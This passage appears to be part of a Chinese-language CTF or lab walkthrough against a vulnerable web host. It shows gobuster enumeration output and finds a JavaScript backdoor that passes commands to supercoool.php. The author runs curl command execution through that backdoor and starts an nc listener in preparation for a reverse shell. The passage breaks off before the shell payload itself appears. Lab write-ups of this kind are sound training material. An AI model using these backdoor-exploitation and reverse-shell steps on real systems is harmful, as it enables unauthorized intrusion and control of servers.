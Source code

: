 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 40821]
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/img                  (Status: 301) [Size: 323] [--> http://192.168.205.213/hacker/img/]
/css                  (Status: 301) [Size: 323] [--> http://192.168.205.213/hacker/css/]
/js                   (Status: 301) [Size: 322] [--> http://192.168.205.213/hacker/js/]
Progress: 40053 / 1102800 (3.63%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 42645 / 1102800 (3.87%)
===============================================================
Finished
===================================
```
爆破结果都是些常规目录，`index.html`, `img`, `css`, `js`。看来得去看看页面源码了，尤其是JS文件。
在浏览器中访问 `https://192.168.205.213/hacker/js/` ，看到一个叫`hacker.js`的JS文件

![image-20250517164504164](https://7r1UMPH.top/image/20250517164504335.webp)

在 `hacker.js` 的底部发现了一段有意思的JavaScript代码：
```javascript
document.addEventListener('keydown', function (e) {
    if (e.ctrlKey && e.shiftKey && e.key === 'Z') {
        let cmd = prompt('è¯·è¾“å…¥è°ƒè¯•å‘½ä»¤:'); // 提示：请输入调试命令
        if (cmd) {
            fetch('./supercoool.php?cmd=' + encodeURIComponent(cmd))
                .then(res => res.text())
                .then(txt => {
                    alert('å‘½ä»¤è¾“å‡ºï¼š\n' + txt); // 提示：命令输出
                });
        }
    }
});
```
好家伙！这藏了个后门啊！当在 `https://192.168.205.213/hacker/` 页面按下 `Ctrl + Shift + Z` 组合键时，会弹出一个输入框，让你输入命令，然后通过 `supercoool.php` 这个文件以GET请求的`cmd`参数来执行。

直接用`curl`来利用这个后门，先试试执行`id`命令。

```bash
┌──(kali㉿kali)-[~]
└─$ curl -k "https://192.168.205.213/hacker/supercoool.php?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>                                                                              
```
成功执行！当前用户是 `www-data`。那必须弹个shell回来了。

本地Kali开个`nc`监听：
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888                       
listening on [any] 8888 ...
```
然后通过`curl`发送反弹shell的payload。靶机上有`busybox nc`，用它来反弹。
